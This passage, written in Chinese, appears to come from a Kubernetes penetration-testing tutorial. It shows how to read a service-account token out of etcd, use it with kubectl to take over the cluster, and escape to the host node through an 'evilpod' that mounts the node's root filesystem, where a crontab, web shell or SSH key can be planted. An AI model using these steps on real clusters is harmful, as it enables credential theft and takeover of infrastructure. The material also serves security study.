 如果查询结果有敏感账户，我们便可以去获取他的 token

```plain
etdctl --endpoints=https://etcd_ip:2375/ get /registry/secrets/default/admin-token-55712
```

[![](assets/1698894613-11ca4984c42921bff643205c7cec1010.png)](https://storage.tttang.com/media/attachment/2022/03/12/f4a6d3dc-4d2f-4305-8aee-0ebca21cc640.png)

拿到 token 以后，用 kubectl 接管集群

```plain
kubectl --insecure-skip-tls-verify -s https://master_ip:6443/ --token="xxxxxx" get nodes
```

## [执行](#toc__5)

### [\*目录挂载逃逸](#toc__6)

这个技术是综合了执行、持久化、权限提升的一个攻击方法，为了省事，就放在这里一块说了。

首先，在我们获取了 api server 控制权后，我们可以创建 Pod，并在容 Pod 内部执行命令。如果我们在创建 Pod 时，将 Node 节点的根目录挂载到 Pod 的某个目录下，由于我们能在 Pod 内部执行命令，所以我们可以修改挂载到 Pod 下的 Node 节点根目录中文件的内容，如果我们写入恶意 crontab、web shell、ssh 公钥，便可以从 Pod 逃逸到宿主机 Node，获取 Node 控制权。

具体复现如下

先创建一个恶意 Pod

```plain
首先我们创建恶意 Pod，可以直接创建 Pod，也可以用 Deployment 创建。
既然提到创建 Pod，那么就多提一句：直接创建 Pod 和用 Deployment 创建 Pod 的区别是什么？

Deployment 可以更方便的设置 Pod 的数量，方便 Pod 水平扩展。
Deployment 拥有更加灵活强大的升级、回滚功能，并且支持滚动更新。
使用 Deployment 升级 Pod 只需要定义 Pod 的最终状态，k8s 会为你执行必要的操作。

如果创建一个小玩意，那么直接创建 Pod 就行了，没必要用 deployment。
_______________________________________
用 Pod 创建
apiVersion: v1
kind: Pod
metadata:
  name: evilpod
spec:
  containers:
  - image: nginx
    name: container
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /

__________________________________
用 deployment 创建
apiVersion: apps/v1
kind: Deployment
```